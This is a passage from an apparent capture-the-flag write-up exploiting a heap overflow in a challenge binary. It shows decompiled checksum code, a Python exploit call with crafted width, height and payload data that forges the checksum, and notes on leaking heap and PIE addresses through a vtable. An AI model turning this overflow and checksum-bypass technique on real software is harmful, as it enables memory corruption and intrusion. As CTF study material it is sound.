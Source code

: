 we see that v15 and v16 can be < 0 but v15*v16 will be a positive number , it’s big enough for heap overflow.

But there is a checksum function that `maybe` detects the object is overwritten:

```c
__int64 __fastcall sub_34BA(__int64 a1)
{
  __int16 i; // [rsp+Eh] [rbp-Ah]
  __int64 v3; // [rsp+10h] [rbp-8h]

  v3 = 0x1337133713371337LL;
  for ( i = 0;
        i < *(__int16 *)(a1 + 20) * *(__int16 *)(a1 + 22)
     && *(__int16 *)(a1 + 20) >= 0
     && *(__int16 *)(a1 + 22) >= 0
     && i <= 2303;
        ++i )
  {
    v3 = 23 * v3 + *(char *)(a1 + i + 56);
  }
  return v3;
}
```

I’m too lazy to analyze that function, when overwriting an object, 

```python
add(0, b'A'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8))
```

I set the breakpoint when it compares the return value and the sum:

![alt text](../assets/img/image-13.png)

the return value is `0x1337133713371337` so I just simply set the sum as `0x1337133713371337` :) 

So just overflowing the name to leak heap, pie address (through vtable of the object).

![alt text](../assets/img/image-14.png)
